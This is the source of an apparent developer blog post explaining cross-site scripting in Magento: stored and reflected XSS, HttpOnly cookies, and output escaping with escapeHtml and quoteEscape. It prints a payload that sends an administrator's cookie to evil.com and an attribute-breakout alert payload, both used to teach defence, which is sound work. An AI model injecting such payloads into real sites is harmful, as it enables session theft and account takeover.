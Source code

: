```yaml
---
layout: blog-single
title: An Intro To XSS For Magento Developers
description: In this post, I cover the basics of XSS, specifically as they relate to Magento
date: June 15, 2017
image: /img/blog/magento-xss-intro/magento-xss@2x.jpg
tags: [magento, security]
ad: domain-clamp-ad-b.html
---
```


XSS is an abbreviation which stands for "Cross Site Scripting". It is a classification of cyber-attack which is currently listed as #3 on [the OWASP top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project). In this post, I'll explain, in detail, what XSS is, and outline what you need to know about it, as a Magento developer

<!-- excerpt_separator -->

### The Idea

The idea behind XSS, is that an attacker executes unauthorized malicious scripts in the context of another user's session. I find the name "cross site scripting" a bit misleading as there is not always a "cross site" involved in the attack. Often the malicious scripting is handled inline, rather than via a `<script>` tag referencing an external site ("cross site"). As such, I prefer the name "script injection". However, this type of attack is universally known as XSS, so that's the name I'll use here.

### An Example

Let me give you an example. When an administrator views the dashboard of the admin panel on both Magento 1 and 2, they'll see a listing of search recent search terms.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg 1x, /img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@2x.jpg 2x"
  alt="A screenshot showing the recent search terms widget in the Magento 2 admin panel dashboard">

This is just a feed of terms typed into the search bar on a Magento site.

What if, as an attacker I executed the following search...

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento-xss@1x.jpg 1x, /img/blog/magento-xss-intro/magento-xss@2x.jpg 2x"
  alt="Magento XSS">

If Magento did nothing to protect against XSS, this would get stored in the database. Then, the next time an administrator logged into the admin panel my search term would be rendered in this feed. 

Again, if Magento took no action to prevent against XSS \<script>document.write('\<img src="http://evil.com/?cookie=' + document.cookie + '">')\</script> would not be rendered as text, but would actually be executed as JavaScript. This script would add an image to the page that would wind up sending a request to evil.com (presumably a site controlled by the attacker) along with the admininstrator's cookie.

Then, the attacker would be able to access the victim's Magento admin panel without any authentication, simply by supplying the administrator cookie with their request.

### What Can Unauthorized Scripts Do

Cookie theft is the classic example of XSS. However, Magento provides a layer of protection against that via its "Use HTTP Only" cookie setting. I have [an entire blog post devoted to that setting]({{ site.baseurl }}{%  link _posts/2017-03-08-magentos-use-http-only-cookie-setting.md %}), but the tl;dr; is that it sets cookies on the browser using [the `HttpOnly` flag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies), which prevents them from being accessed by scripts. You should use it.

 Still, there are other bad things that attackers can do via XSS. For example, they could use `window.location` to redirect you to a phishing site that poses as an official Magento site and prompts you enter your administrator user name and password. They could also read the referrer URL which will disclose your admin front name and read your admin user name and form key from the document. 
 
Suffice it to say, XSS is still a concern even with cookies set to `HttpOnly` and is something you want to protect against.

### Different Types Of XSS

There are two different classifications of XSS, stored XSS and reflected XSS. The example I've just described is classified as stored XSS, because the content used to carry out the attack has been stored in the database.

Reflected XSS, on the other hand, is XSS that happens as a result of data in the URL request string. For example, what if an attacker could trick you to click on a link with the malicious payload in the URL.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/reflected-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/reflected-xss@1x.jpg 1x, /img/blog/magento-xss-intro/reflected-xss@2x.jpg 2x"
  alt="Magento Reflected XSS">

Without any protection against XSS this malicious script will be executed, and will send your frontend cookie to evil.com. The attacker could then gain access to your account and place fraudlent orders using your saved credit card.

While reflected XSS is not good, stored XSS is typically considered more severe as the attacker does not need to trick the victim into taking a specific action.

### The Solution

There are two solutions for XSS, input validation and output escaping. For example, Magento could look at the search term, see the `<script>` tag any reject is as invalid.

In this example, however, search queries including the string \<script> **are** considered valid queries by Magento. So the next solution is output escaping.

The idea here is to convert the word `<script>` to `&lt;script&gt` before outputing. Then, when rendered by the browser the user will see the word "\<script>" as a string of text and the script will not be executed. This strategy is employed by Magento to protect against both the stored, and reflected examples described earlier.

Input validation and output escaping are not mutually exclusive. You should be doing both.

### How Do We Do This In Magento

Magento provides documentation on output escaping for Magento 2 [here](http://devdocs.magento.com/guides/v2.0/frontend-dev-guide/templates/template-security.html). When outputting untrusted text, you should use `escapeHtml`. This will use the PHP function `htmlspecialchars` to convert `<` to `&lt;`.

Additionally, when outputting untrusted data in HTML attributes, we need to be careful. For example, the attacker could use the following query to break out of an attribute and execute scripts.

`Shoes" onhover="alert('xss')"`

For HTML attributes you should use `quoteEscape` which will escape both single and double quotes.

### In Scope vs. Out Of Scope XSS

According to [Magento's official bug bounty](https://bugcrowd.com/magento), protecting against XSS by administrators to front end users is out of scope. It is an acknowledged part of the platform that administrators are able to output and have rendered scripts during front end users sessions.

> Cross-Site Scripting (XSS) bugs in the admin interface (URLs containing /admin/) where the code is only executed in front end context but not in admin context are excluded. Merchants are explicitly allowed to use active content when designing their stores, so this is a required feature. The admin XSS capability does not give the administrator any additional powers to do harm beyond what other administrative features already allow

However, administrators should non be able to render and have executed scripts in the context of other administrator users as this could facilitate privilege escalation.

> XSS issues where an administrator with limited access can impact other administration pages are valid.

Additionally, as we've seen in the example of this post, front end users should certainly not be able to execute XSS in the context of admin user sessions.

### Conclusion

I hope this post came in useful for some people. If you have any questions or comments, feel free to drop a note below, or, as always, you can reach me on [Twitter](http://twitter.com/maxpchadwick) as well.